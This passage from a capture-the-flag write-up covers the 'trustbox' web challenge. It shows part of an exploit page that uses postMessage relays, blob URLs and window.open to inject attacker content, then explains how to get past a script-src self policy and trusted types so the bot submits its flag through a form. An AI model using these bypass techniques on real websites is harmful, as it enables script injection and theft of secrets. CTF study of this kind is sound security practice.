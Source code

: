 ```html
      "message",
      function (m) {
        // Pass all messages through
        window.parent.postMessage(m.data, "*");

        if (m.data.name === "evil_script") {
          // Script created, now create page t use script
          createEvilHTML(m.data.url);
        }
        if (m.data.name === "evil_page") {
          // Page and scrtipt created, now open trustbox and inject evil page
          window.open("https://trustbox.hackthe.space/?debug=" + m.data.url);
        }
      },
      false
    );

    // Start with the evil script creation when page is done loading
    window.onload = createEvilJS;
  </script>
</html>
```

The script in this html page, first creates a BlobURL which contains the
Javascript to create a new header element in its parent. Once this is created,
it creates a second BlobURL which contains a html page which uses the just 
created Javascript blob. The reason for this is that the created pages have the 
same origin as trustbox and on trustbox the content policy is set with 
`script-src: self` which forbids inline Javascript from being executed. 
After both files are created, it opens a new tab with `window.open()`, which
normally would be blocked from [Chromes Popup Blocker](https://support.google.com/chrome/answer/95472?co=GENIE.Platform%3DDesktop&hl=en), 
but [Pupeteer](https://pptr.dev/) has this disabled by default.

When we now reload the page `https://trustbox.hackthe.space/?debug=https://XXXX.ngrok.io`
(there is no need to restart or recompile the go server), we see that instantly,
two files are on the page and after we temporarily disable the popup blocker, we
can see a new page with an injected header.

With the trusted types restrictions, we are not allowed to use functions/fields
like `element.innerHTML` or create new script elements. However, these 
restrictions are quite easy to work around. 

From the challenge description, and the bots sourcecode, we know that the bot 
searches for an input element with the id=`flag` and after it enters the flag 
into it, it presses enter. Luckily we can use a 
[form element](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/form)
which has the default behaviour to submit the form if the user presses
enter.

However, the bot only enters the flag if there is a script with the id `pwn` on
the page. Since the [trusted types](https://developer.mozilla.org/en-US/docs/Web/API/Trusted_Types_API) 
policy forbidds us from creating new scripts with the `src` 
attribute set, we need to use one of the two existing scripts and add the 
needed id=`flag` (they already have the `src` attribute set).
